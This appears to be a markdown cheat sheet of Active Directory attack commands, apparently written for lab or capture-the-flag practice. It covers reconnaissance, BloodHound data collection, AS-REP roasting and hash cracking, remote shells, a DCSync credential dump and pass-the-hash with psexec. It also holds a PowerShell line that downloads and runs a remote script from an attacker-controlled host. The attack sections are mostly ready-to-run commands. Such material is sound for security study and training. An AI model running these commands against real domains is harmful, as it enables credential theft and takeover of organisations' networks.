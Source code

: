 # Intro
* Sources for this cheat sheet: [zer1t0](https://zer1t0.gitlab.io/posts/attacking_ad/)
* Good list of AD pentest commands and tools: https://wadcoms.github.io/
* Using impacket scripts input Domain Names in **lower case** if connection fails!

# Reconaissance

Understanding the target AD environment is key to further exploitation.

* **Tools**:

* Most important tool: `enum4linux`

`enum4linux -a target_ip > enum.log`

* AD recon: https://github.com/sense-of-security/ADRecon
* Bloodhound: https://github.com/BloodHoundAD/BloodHound
* targetedKerberoast: https://github.com/ShutdownRepo/targetedKerberoast


## Domain Controller Discovery

* **DNS query**: `nslookup -q=srv _ldap._tcp.dc._msdcs.contoso.local`
* **Using nltest**: `nltest /dclist:domain.local`

## Domain Hosts Discovery

* NetBios scan: `nbtscan 192.168.100.0/24`
* LDAP query of domain base (credentials required): `ldapsearch -H ldap://dc.ip -x -LLL -W -D "anakin@contoso.local" -b "dc=contoso,dc=local" "(objectclass=computer)" "DNSHostName" "OperatingSystem" `
* NTLM info scirpt: `ntlm-info smb 192.168.100.0/24`
* Scan also for ports: 135(RPC) and 139(NetBIOS serssion service)

## Sniffing using Bloodhound

Actual collectors: https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

1. Get Sharphound on target host to collect data for Bloodhound
`iex(new-object net.webclient).downloadstring("http://10.10.14.43/AzureHound.ps1")`

2. Invoke Bloodhound on target host and harvest data
`invoke-bloodhound -collectionmethod all -ZipFileName exf_blood -domain xxx.local -ldapuser xxxuserxxx -ldappass xxpasswordxxx`

OR

use Bloodhound.py (https://github.com/fox-it/BloodHound.py) to collect AD info:

`./bloodhound.py -d xxx.local -u xxxxxx -p xxx -gc xxx.xxx.local -c all -ns 10.10.10.xxx`

# Exploitation

## Brute Force ASREP roast

* Sometimes remote access if possible if PREAUTH is misconfigure. Just try bruteforcing if
* Important: need list of valid users! Check users using: `kerbrute userenum ...`
* To get user list of users use: `enum4linux`

```

   1. Look for users via LDAP
      
   2. Use ASREP roast against users in the ldapenum_asrep_users.txt file
    
   crackmapexec ldap forest -u users1.txt  -p '' --asreproast ASREProast --kdcHost 10.10.10.161
   
   3. Use SPN roast against users in the ldapenum_spn_users.txt file
   
   Crack SPN roast and ASPREP roast output with hashcat
   
   hashcat -a 0 -m 18200 hc.txt  /usr/share/wordlists/rockyou.txt

```


## Remote Shell

* RPC: `evil-winrm -i 10.10.10.xxx -u 'xxx'  -p 'xxx' `
* SMB: use some exploit from SMB cheat sheet

## Dsync Attack
Read about dsync here: https://book.hacktricks.xyz/windows/active-directory-methodology/dcsync

* Find accounts with permissions for DSync using **powerview**

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

```

* Dump Admin credentials with an account that has **permissions to do so**

`secretsdump.py xxx/usename@10.10.10.xxx -just-dc-user Administrator` 

* Use extracted hash to perform pass the hash attack

`psexec.py -hashes aad3b435b51404eeaad3b435b5140xxx:32693b11e6aa90eb43d32c72a07cxxxx "xxx.local/Administrator@10.10.10.xxx"`

# Lateral Movement

## In-Depth Discovery:

* **Manual information gathering on AD member **:  

Get Domain infos: <code> Get-ADDomain </code>

Get Forest infos: <code> Get-ADForest</code>

AD user info: <code> Get-ADUser Administrator </code>

Important AD users:  <code> Get-ADUser -Filter * | select SamAccountName </code>

Search for specific user: <code>  Get-ADUser -Filter 'UserPrincipalName -like "user*"' </code>

Get all Users (including Computernames): <code> Get-ADObject -LDAPFilter "objectClass=User" -Properties SamAccountName | select SamAccountName </code>

Groups:  <code> Get-ADGroup -Filter * | select SamAccountName </code> 

**AD Admins group**:  `Get-ADGroup "Domain Admins" -Properties members,memberof`

Check trusted domains: <code> nltest /domain_trusts </code>

* **Get current active domain for the user**:

<code> (Get-WmiObject Win32_ComputerSystem).Domain </code>

* **Domain can be also identified using** [SID](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers):

<code> Get-ADDomain | select DNSRoot, NetBIOSName, DomainSID </code>


